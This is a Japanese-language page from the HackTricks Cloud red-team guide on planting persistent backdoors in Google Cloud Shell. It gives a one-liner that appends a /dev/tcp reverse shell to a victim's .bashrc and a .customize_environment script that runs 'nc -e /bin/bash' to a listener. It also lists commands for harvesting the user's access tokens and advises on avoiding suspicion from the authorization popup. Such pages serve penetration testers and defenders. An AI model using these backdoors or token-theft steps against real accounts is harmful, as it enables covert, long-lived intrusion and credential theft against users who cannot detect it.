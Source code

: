 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

詳細については、次を確認してください：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) は、関連するコストなしにブラウザから直接クラウドリソースへのコマンドラインアクセスを提供します。

**ウェブコンソール**から、または**`gcloud cloud-shell ssh`**を実行することでGoogleのCloud Shellにアクセスできます。

このコンソールには攻撃者にとって興味深い機能があります：

1. **Google Cloudにアクセスできる任意のGoogleユーザー**は、完全に認証されたCloud Shellインスタンスにアクセスできます（サービスアカウントは、組織のオーナーであってもアクセス可能です）。
2. そのインスタンスは、**活動がない場合、少なくとも120日間はホームディレクトリを維持します**。
3. そのインスタンスの活動を**組織が監視する能力はありません**。

これは基本的に、攻撃者がユーザーのホームディレクトリにバックドアを設置でき、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアは生き残り、攻撃者は実行するたびにシェルを取得できることを意味します：

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダには **`.customize_environment`** という別のファイルがあり、存在する場合はユーザーが **cloud shell** にアクセスするたびに **実行されます**（前の技術と同様に）。ユーザーが「頻繁に」cloud shell を使用する限り、前のバックドアまたは以下のようなものを挿入して持続性を維持してください：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
最初に認証を必要とするアクションが実行されると、ユーザーのブラウザにポップアップ認証ウィンドウが表示されることに注意することが重要です。このウィンドウは、コマンドを実行する前に受け入れられなければなりません。予期しないポップアップが表示されると、疑念を引き起こし、使用している永続性メソッドが危険にさらされる可能性があります。
{% endhint %}

これは、クラウドシェルから `gcloud projects list` を実行したときのポップアップ（攻撃者として）で、ブラウザのユーザーセッションで表示されます：

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

ただし、ユーザーがクラウドシェルを積極的に使用している場合、ポップアップは表示されず、次のコマンドで**ユーザーのトークンを収集できます**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続の確立方法

基本的に、これらの3つのAPI呼び出しが使用されます：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ローカルで作成した公開鍵を追加します)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (インスタンスを起動します)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud ShellのIPを教えてくれます)

さらに詳しい情報は、[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)で見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
